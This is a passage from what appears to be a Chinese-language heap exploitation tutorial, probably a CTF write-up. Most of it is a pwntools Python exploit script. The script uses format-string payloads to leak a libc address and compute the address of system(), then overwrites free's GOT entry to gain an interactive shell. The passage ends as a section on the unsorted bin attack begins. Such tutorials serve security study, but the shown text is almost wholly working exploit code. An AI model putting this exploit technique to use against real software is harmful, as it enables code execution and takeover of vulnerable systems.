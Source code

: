 ```

def submit():
    p.recvuntil('Submit\n')
    p.sendline('5')

def pwn():
    dele(2)
    payload = '%1908x' + '%13$hn' # 400a39
    payload += '%31$lx'
    payload = payload.ljust(0x80)
    payload += p64(0) + p64(0x151)
    edit1(payload)
    p.recvuntil('Submit\n')
    payload = '5'.ljust(8, '\x00') + p64(0x6011f0)
#    payload += '%{}x'.format(39 - len(payload)) + '%13$hhn'
    gdb.attach(p)
    p.sendline(payload)
    print p.recvline()
    print p.recvline()
    print p.recvline()
    print p.recvuntil('400fda')
    leak_addr = int(p.recv(12), 16)
    print 'leak_addr => ', hex(leak_addr)
    libc.address = leak_addr - 241 - libc.symbols['__libc_start_main']
    print 'libc.address => ', hex(libc.address)
    system_addr = libc.symbols['system']
    print 'system_addr => ', hex(system_addr)

    dele(2)
    low_bytes = int(hex(system_addr)[-4:], 16)
    mid_bytes = int(hex(system_addr)[8:10], 16)
    payload = '%{}x'.format(int(hex(system_addr)[8:10], 16) - 12) + '%13$hhn'
    payload += '%{}x'.format(low_bytes - mid_bytes) + '%14$hn'
    payload = payload.ljust(0x80)
    payload += p64(0) + p64(0x151)
#    gdb.attach(p)
    edit1(payload)
    p.recvuntil('Submit\n')
    payload = '5'.ljust(8, '\x00') + p64(free_got+2)
    payload += p64(free_got)
    p.sendline(payload)

if __name__ == '__main__':
    pwn()
    p.interactive()
```

## 0x0A unsorted bin attack

这个应该是最简单的堆溢出技术了吧，先看当我们释放`unsortbin`时的源码
